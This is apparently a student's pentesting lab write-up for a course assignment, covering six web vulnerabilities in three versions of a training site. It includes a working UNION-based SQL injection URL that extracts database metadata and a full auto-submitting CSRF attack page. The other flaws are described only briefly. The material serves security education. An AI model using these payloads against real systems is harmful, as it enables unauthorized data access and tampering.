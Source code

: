 # Project 8 - Pentesting Live Targets

Time spent: 7 hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:
* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each version of the site has been given two of the six vulnerabilities. (In other words, all six of the exploits should be assignable to one of the sites.)

## Blue

Vulnerability #1: __SQL Injection__
    By using ``` https://104.155.169.96/blue/public/salesperson.php?id=%27%20union%20select%201,(select%20concat(%222select%20database()%20is%20%22,%20(select%20database()))),(select%20concat(%22-----------------3select%20user()%20is%20%22,%20(select%20user()))),(select%20concat(%224select%20version()%20is%20%22,%20(select%20version()))),5%20--%20 ``` I can make the id query come back with some unioned table and database metadata - things an attacker should not have access to!
    
    ![](https://github.com/nke5ka/codepathWeek8/blob/master/blue1.gif)

Vulnerability #2: __Session Hijacking/Fixation__
    By using the built in session changing tool, I can steal the session ID from one user and login as them without credential checking.
    
    ![](https://github.com/nke5ka/codepathWeek8/blob/master/blue2.gif)

## Green

Vulnerability #1: __User Enumeration__
    Using logins that have a real username leads to a bolded error message, but logins using nonexistent username leads to an unbolded error message.
    
    ![](https://github.com/nke5ka/codepathWeek8/blob/master/green1.gif)

Vulnerability #2: __Cross Site Scripting__
    By using script alert, an attacker can add a comment which when viewed leads to execution of arbitrary javascript.
    
    ![](https://github.com/nke5ka/codepathWeek8/blob/master/green2.gif)
    ![](https://github.com/nke5ka/codepathWeek8/blob/master/green2b.gif)

## Red

Vulnerability #1: __Insecure Direct Object Reference__
    A non logged in user can access any salesperson by changing their ID - even ones not listed.
    
    ![](https://github.com/nke5ka/codepathWeek8/blob/master/red1.gif)
    
Vulnerability #2: __Cross Site Request Forgery__
    By accessing a hacker's page with the following html, a logged in user can unknowingly change values via post request to be the values the hacker desires.
    
    ![](https://github.com/nke5ka/codepathWeek8/blob/master/red2.gif)
    
```
<html>
<!-- <body onload="document.form2Sub.submit()"> -->
<iframe name="secretsarenofun" src="#" style="display: none;">
</iframe>
<form action="https://104.155.169.96/red/public/staff/countries/edit.php?id=2" method="post" name="form2Sub" id="formYesPls" target="secretsarenofun">
    <input type="hidden" name="name" value="Canadia555HACKED" />
    <input type="hidden" name="code" value="CA" />
</form>
Welcome to my not sketchy site - enjoy visiting, don't look at the source code or even think this is weird or sketchy.  Oh hai there.
<!--</body>-->
<script>
var sketchyform = document.getElementById("formYesPls");
sketchyform.style.display = "none";
sketchyform.submit();
</script>
</html>
```

## Notes
Lots of fun!
Only Firefox by default allows xframeoptions to load offsite
Bonus Objective 1: SQL goes beyond just showing the database injection, but also get important information about the system.
